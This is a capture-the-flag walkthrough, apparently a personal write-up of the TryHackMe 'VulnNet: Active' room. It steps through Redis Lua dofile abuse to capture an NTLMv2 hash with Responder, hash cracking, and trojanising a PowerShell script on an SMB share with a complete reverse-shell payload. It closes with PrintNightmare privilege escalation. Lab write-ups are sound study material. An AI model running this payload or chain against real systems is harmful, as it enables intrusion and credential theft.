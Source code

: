 # Vulnnet: Active

https://tryhackme.com/room/vulnnetactive

I found this room very hard, with a bunch of new techniques I haven't seen before. So worth writing up.

1. Enumeration reveals a bunch of ports, though notably no web port, ssh or rdp. Even though its a windows machine, the only interaction seems to be via SMB and an exposed Redis instance on 6379.
2. The Redis instance was running version 2.8, and did not require authentication. It contained no keys of note. However, this version of Redis contains a 'vulnerability' where you can use 'dofile' in the LUA sandbox, allowing you to access files or network shares. E.g. `EVAL "dofile('/etc/passwd')" 0` would work on a linux machine.
3. For a windows machine, notably, this can be used to access network shares. Which means, if I set up responder, I might be able to catch a hash.
4. Setting up responder from this repo (the new version, 3.0+), https://github.com/lgandx/Responder, then using something like `EVAL "dofile('//yourip//share')" 0` will catch an NTMLv2 hash.
5. This can be cracked using hashcat, using -m 5600 and rockyou, to reveal the password for user 'enterprise-security'.
6. With the username and password, the shares can be enumerated with smbclient revealing and accessing 'enterprise-share'. In here is a powershell file, named purge...ps1
7. By replacing this file with a new one containing a rev shell payload, a rev shell can be established. I used the following payload:

```
$client = New-Object System.Net.Sockets.TCPClient('10.4.0.7',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Simply place this in a file with the same name as the script, and put onto the share (it will overrite the existing one). Then set up a listener and wait.

8. The rev shell will be established momentarily. However, to improve it, generate a msfvenom rev shell (windows/x64/shell_reverse_tcp), upload it to the share, then run it with your rev shell. This will grant a more stable shell that also correctly outputs stderror.
9. The intended path to privesc looks to be GPO abuse: https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/ and using a tool like https://labs.f-secure.com/tools/sharpgpoabuse. However I couldn't a) fully understand this and b) get sharpgpoabuse working (likely because I was using the basic rev shell). Instead, print nightmare works
10. This version of print nightmare is a simple powershell script: https://github.com/calebstewart/CVE-2021-1675. Upload it using the share, then import it and run it as shown on the readme. It will quickly generate a user (if run with no args, this will be the user `adm1n`, note the `1`).
11. To get the final flag, the new user can be used with the share `c$` to enumerate the system fully.
